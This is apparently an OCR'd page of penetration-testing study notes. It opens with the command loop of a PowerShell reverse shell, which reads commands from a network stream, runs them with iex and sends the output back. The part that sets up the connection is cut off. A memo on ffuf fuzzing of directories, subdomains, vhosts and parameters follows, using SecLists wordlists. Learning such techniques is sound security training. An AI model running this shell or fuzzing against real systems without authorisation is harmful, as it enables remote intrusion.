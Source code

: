 ```powershell
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()"
```

# Fuzzing
## Lesson
- the way to use `ffuf`
- the way to use `SecList`

## Memo
```zsh
$ apt install ffuf -y
$ 
$ ffuf -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://XXX.XXX.XXX.XXX:YYY/FUZZ
$
# The wordlist we chose already contains a dot (.), so we will not have to add the dot after "index" in our fuzzing.
$ ffuf -w ~/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://XXX.XXX.XXX.XXX:YYY/blog/indexFUZZ
$
$ ffuf -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://XXX.XXX.XXX.XXX:YYY/blog/FUZZ.php
$
# Sub-domain Fuzzing
$ ffuf -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.example.com/
#
# VHost Fuzzing
$ ffuf -w wordlist.txt:FUZZ -u http://example.com:PORT/ -H 'Host: FUZZ.example.com' -fs xxx
#
# Parameter Fuzzing
$ ffuf -w wordlist.txt:FUZZ -u http://example.com:PORT/admin/admin.php?FUZZ=key -fs xxx
#
# Combination
$ ffuf -w ./mySubdomain.txt:SUB -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://example.com:PORT/FUZZ -H 'Host: SUB.example.com' -recursion -recursion-depth 1 -e .php,.php7,.phps
$
$ ffuf -w ~/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://XXX.example.com:PORT/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs 774,780

```
SecList
```zsh
$ wc -l .../SecLists/Usernames/xato-net-10-million-usernames-dup.txt
$ wc -l .../SecLists/Discovery/Web-Content/web-extensions.txt
$ wc -l .../SecLists/Discovery/Web-Content/burp-parameter-names.txt
$ wc -l .../SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```
